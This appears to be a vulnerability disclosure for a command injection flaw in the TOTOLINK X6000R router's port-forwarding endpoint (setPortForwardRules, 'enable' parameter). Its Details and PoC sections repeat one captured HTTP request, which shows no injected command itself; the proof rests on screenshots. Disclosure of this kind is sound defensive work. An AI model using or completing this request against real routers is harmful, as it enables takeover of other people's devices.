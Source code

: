 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/portfwd.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/eb45cb66-ec43-403d-b730-b3cd06d7371f)


Capture the packet and see the enable parameter, and do a blind test directly:
![image](https://github.com/user-attachments/assets/677f27cc-fab4-4bee-9f34-6d6ca00b597b)

```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/portfwd.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"1","addEffect":"0","topicurl":"setPortForwardRules"}
```
![image](https://github.com/user-attachments/assets/b6f1b82e-2409-42ea-9adf-cede51f8c27b)

![image](https://github.com/user-attachments/assets/23dd194d-da8f-41d9-a60f-d60073f5c718)


# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=B5904DB48F93AAA0 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 63
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/portfwd.html?token=B5904DB48F93AAA0
Priority: u=1

{"enable":"1","addEffect":"0","topicurl":"setPortForwardRules"}
```
![image](https://github.com/user-attachments/assets/b6f1b82e-2409-42ea-9adf-cede51f8c27b)

![image](https://github.com/user-attachments/assets/23dd194d-da8f-41d9-a60f-d60073f5c718)
